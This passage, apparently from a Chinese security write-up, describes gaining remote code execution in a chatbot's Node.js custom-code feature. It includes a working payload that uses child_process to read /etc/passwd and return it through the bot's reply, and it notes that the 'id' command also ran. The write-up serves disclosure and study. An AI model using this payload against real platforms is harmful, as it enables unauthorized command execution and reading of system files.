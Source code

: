 结果返回了完整的环境变量列表，虽然未发现AWS密钥，但暴露了大量系统信息。类似地，process.platform  
返回了linux  
，而process.execPath  
返回了Node.js二进制文件的路径。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOKl63AWyia3lO7TnvU1ia9zQwuQekiawBY5oianmbgGBMyvoSHnhcSiblccl2728yEGI60kiaUWIUkRek2w/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOKl63AWyia3lO7TnvU1ia9zQwAvG7qiaRSh8icXNW2K9gNdIQMc2QjV20lLkO5x3IL5uZz2Yg5lL3GmXg/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOKl63AWyia3lO7TnvU1ia9zQwQdndanpoZhLIOBLP8UMNKNVUxqfaGeArJ1EtaBCkPgicX63fGySLWew/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOKl63AWyia3lO7TnvU1ia9zQwD724tlMNicbEkXfpClhAMUMmibRm0XHFrCqFX7hmAcqGmR2U2YTuxN7w/640?wx_fmt=other&from=appmsg "")  
  
这些结果表明，代码执行环境的权限远超预期，为实现完整的RCE提供了可能性。  
#### 最终突破：实现完整RCE  
  
在多次尝试和与同行的讨论后，我构造了以下payload，利用Node.js的child_process  
模块执行系统命令：  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
const { exec } = require('child_process');

exports.main = (event, callback) => {
  exec('head /etc/passwd', (error, stdout, stderr) => {
    if (error) {
      console.error(`exec error: ${error}`);
      return;
    }
    if (stderr) {
      console.error(`stderr: ${stderr}`);
      return;
    }

    const responseJson = {
      botMessage: stdout,
      responseExpected: false
    };

    callback(responseJson);
  });
};
```  
  
执行后，聊天机器人返回了/etc/passwd  
文件的内容，证明我成功读取了本地文件。进一步测试命令id  
，返回了当前用户的身份信息，确认了完整的RCE能力。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOKl63AWyia3lO7TnvU1ia9zQwnXeTCs1PiawjsRIkDcLBE4dibJOibjqHqXRUPiaia4wOwYNkELC5iciaIb1AQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOKl63AWyia3lO7TnvU1ia9zQwodJmtWXHsowrsibicK0jstnKtsQ8PC93d90aFRx4J4kpSEyNmCvFMYbw/640?wx_fmt=other&from=appmsg "")  
#### 漏洞成因分析：RCE的根源  
  